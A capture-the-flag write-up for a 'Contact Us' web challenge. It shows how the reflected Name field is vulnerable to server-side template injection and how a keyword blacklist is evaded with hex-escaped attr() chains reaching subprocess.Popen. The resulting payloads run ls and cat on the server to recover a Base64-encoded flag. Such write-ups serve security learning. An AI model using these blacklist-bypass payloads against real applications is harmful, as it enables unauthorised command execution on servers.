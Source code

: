 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge a "Contact Us" page is given. According to the name of the challenge, we try to find some kind of injection on this page.  
By filling in the fields of the form, we see that the `Name` field is reflected on the page. For example, by entering "Test" in the `Name` field, the following message will be displayed:
```
Dear Test, we have received your message...
```  
Now we enter {{4*7}} in the `Name` field. the following message will be displayed:
```
Dear 28, we have received your message...
```
So it turns out that this field has the `SSTI` vulnerability.

We try different payloads to exploit this vulnerability, but it can be seen that many of the common words used in the SSTI vulnerability payloads are blocked.
For example, by entering `{{''.__class__}}` in the `Name` field, the following message will be displayed:
```
An attack has been detected in this phrase: '.'
```  
By trying different payloads and leaving out the items that are blocked, we can finally get an RCE on the server
(By calling the popen subprocess, which is the 360th index from the list of subprocesses):
```
{{()|attr('\x5f\x5fclass\x5f\x5f')}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)}}
```  
By executing the `ls` command, we see that there is a `help` file in the current path:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('ls',stdout=-1)|attr('communicate')()}}
```  
Open this file by executing the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','help'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
We will see the following sentence inside the help file:
```
Flag is the last file I put in /opt/tmuctf/ folder...
```  
Since the flag is the last file that is placed in the `/opt/tmuctf/` folder, we run the following command to see the list of files of this folder, from the newest to the oldest.
Certainly the newest file is the flag file.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('ls','-t','/opt/tmuctf/'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
So we open the newest file with the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','/opt/tmuctf/gTKF6mHwMC'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
A Base64 encoded string is inside this file:
```
VE1VQ1RGezBoIV95MHVfYnlwNDU1M2RfNGxsX215X2JsNGNrbDE1NyEhIV9fMV81aDB1bGRfaDR2M19iMzNuX20wcjNfYzRyM2Z1bH0=
```  
By decoding This string we get the flag.

The flag:
```
TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
```
